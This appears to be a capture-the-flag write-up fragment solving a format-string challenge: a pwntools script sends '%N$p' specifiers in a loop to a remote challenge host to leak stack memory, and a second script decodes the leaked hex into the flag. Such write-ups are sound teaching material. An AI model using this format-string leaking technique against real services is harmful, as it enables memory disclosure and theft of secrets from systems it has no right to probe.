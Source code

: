 use format string to leak the flag

{% highlight python %}
from pwn import *
r = remote("jh2i.com" , 50038)
for i in range(500):
    r.sendline("%" + str(i) + "$p")
    flag = r.recv()
    if "LLS" in flag:
        print flag
        break
    else:
        print flag

{% endhighlight %}

and decode the last leak
{% highlight python %}
a = '''
    0x632f2e0000000000
    0x65676e656c6c6168
    0x5f45544f4d455200
    0x3736313d54534f48
    0x3134312e3237312e
    0x534f48003732312e
    0x31383d454d414e54
    0x3566656235383831
    0x3d454d4f48006137
    0x4c4f00746f6f722f
    0x50002f3d44575044
    0x7273752f3d485441
    0x732f6c61636f6c2f
    0x7273752f3a6e6962
    0x622f6c61636f6c2f
    0x2f7273752f3a6e69
    0x73752f3a6e696273
    0x732f3a6e69622f72
    0x6e69622f3a6e6962
    0x6f682f3d44575000
    0x46006e77702f656d
    0x7b534c4c3d47414c
    0x6174735f6b636174
    0x65726f6d5f3f6b63
    0x74735f656b696c5f
    0x617474615f6b6361
    0x68632f2e007d6b63
    0x65676e656c6c61
'''
a = a.replace("\n",'').replace("0x",'').split()
# print a
x = ''
for i in a:
    x += i.decode('hex')[::-1]
print x

{% endhighlight %}
